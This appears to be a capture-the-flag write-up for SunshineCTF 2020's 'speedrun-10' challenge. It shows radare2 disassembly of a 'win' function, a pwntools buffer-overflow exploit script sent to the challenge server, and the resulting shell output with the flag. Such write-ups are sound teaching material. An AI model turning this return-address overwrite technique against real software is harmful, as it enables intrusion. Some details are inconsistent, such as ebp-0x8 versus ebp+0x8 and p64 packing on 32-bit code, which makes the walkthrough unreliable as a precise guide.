 # speedrun-10

## Task

nc chal.2020.sunshinectf.org 30010

File: chall_10

Tags: binary exploitation

## Solution

Nothing interesting in this one. Simple buffer overflow in `sym.vuln`, find offset with gdb and pattern, write return address of `win`.

```nasm
[0x080483c0]> pdf@sym.win
┌ 52: sym.win (uint32_t arg_8h);
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg uint32_t arg_8h @ ebp+0x8
│           0x080484d6      55             push ebp
│           0x080484d7      89e5           mov ebp, esp
│           0x080484d9      53             push ebx
│           0x080484da      83ec04         sub esp, 4
│           0x080484dd      e8a9000000     call sym.__x86.get_pc_thunk.ax
│           0x080484e2      051e1b0000     add eax, 0x1b1e
│           0x080484e7      817d08efbead.  cmp dword [arg_8h], 0xdeadbeef
│       ┌─< 0x080484ee      7514           jne 0x8048504
│       │   0x080484f0      83ec0c         sub esp, 0xc
│       │   0x080484f3      8d9010e6ffff   lea edx, [eax - 0x19f0]
│       │   0x080484f9      52             push edx                    ; const char *string
│       │   0x080484fa      89c3           mov ebx, eax
│       │   0x080484fc      e88ffeffff     call sym.imp.system         ; int system(const char *string)
│       │   0x08048501      83c410         add esp, 0x10
│       │   ; CODE XREF from sym.win @ 0x80484ee
│       └─> 0x08048504      90             nop
│           0x08048505      8b5dfc         mov ebx, dword [var_4h]
│           0x08048508      c9             leave
└           0x08048509      c3             ret
```

We see we need to write `0xdeadbeef` to `ebp-0x8`. No problem with that.

```python
from pwn import *

e = ELF("./chall_10")

#p = e.process()
p = remote("chal.2020.sunshinectf.org", 30010)

payload  = "A"*62
payload += p64(e.symbols["win"])
payload += p64(0xdeadbeef)

p.sendline()
p.sendline(payload)
p.interactive()
```

And get our flag:

```bash
$ python2 pwny.py
[+] Opening connection to chal.2020.sunshinectf.org on port 30010: Done
[*] Switching to interactive mode
Don't waste your time, or...
$ ls
chall_10
flag.txt
$ cat flag.txt
sun{second-heartbeat-aeaff82332769d0f}
```
